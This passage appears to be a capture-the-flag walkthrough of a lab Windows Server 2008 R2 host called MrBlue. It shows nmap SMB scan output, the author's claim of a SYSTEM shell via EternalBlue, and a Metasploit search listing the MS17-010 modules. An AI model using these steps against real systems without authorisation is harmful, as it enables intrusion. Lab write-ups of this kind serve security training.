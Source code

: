 |_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: MrBlue
|   NetBIOS computer name: MRBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-01T05:10:20+00:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-01T05:10:21
|_  start_date: 2020-03-25T14:11:23


2. i clearly found the version of windows to be vulnerable to eternal blue exploit
i started metasploit, selected the exploit, set options and executed the exploit and got a shell as NT AUTHORITY\SYSTEM



┌──(root💀Toyin)-[~/infosec/ptd/242/msfconsole]
└─# msfconsole -q
msf6 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
